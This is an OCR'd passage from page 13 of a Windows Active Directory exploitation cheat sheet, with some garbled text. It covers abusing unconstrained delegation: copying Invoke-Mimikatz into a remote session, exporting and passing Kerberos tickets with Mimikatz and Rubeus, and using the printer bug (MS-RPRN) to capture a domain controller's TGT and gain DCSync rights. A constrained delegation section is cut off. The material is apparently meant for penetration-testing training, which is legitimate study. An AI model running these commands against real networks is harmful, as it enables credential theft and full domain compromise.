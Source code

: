 # Copy files to or from an active PowerShell remoting se
Copy-Item -Path .\Invoke-Mimikatz.ps1 -ToSession $sess2

Unconstrained delegation
Can be set on a frontend service e g

IIS web server to allow it

to delegate on behalf of the user to any service in the domain
towards a backend service such as an MSSQL database
DACL UAC property

TrustedForDelegation

Exploitation
With administrative privileges on a server with Unconstrained
Delegation set we can dump the TGTs for other users that have a
connection With Mimikatz
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

13/31

sekurlsa::tickets /export
kerberos::ptt c:\path\to\ticket.kirbi
Or with Rubeus
.\Rubeus.exe klist
.\Rubeus.exe dump /luid:0x5379f2 /nowrap
.\Rubeus.exe ptt /ticket:doIFSDCC[...]
We can also gain the hash for a domain controller machine
account if that DC is vulnerable to the printer bug On the server
with Unconstrained Delegation monitor for new tickets with
Rubeus
.\Rubeus.exe monitor /interval:5 /nowrap
From attacking machine entice the Domain Controller to connect
using the printer bug Binary from here
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dc

The TGT for the machine account of the DC should come in in the
first session We can pass this ticket to gain DCSync privileges
.\Rubeus.exe ptt /ticket:doIFxTCCBc...

Constrained delegation
Constrained delegation can be set on the frontend server e g
IIS to allow it to delegate to only selected backend services e g
MSSQL on behalf of the user
DACL UAC property

TrustedToAuthForDelegation

This allows

i e requesting a TGS on behalf of anyone to oneself
using just the NTLM password hash This effectively allows the
s4u2self
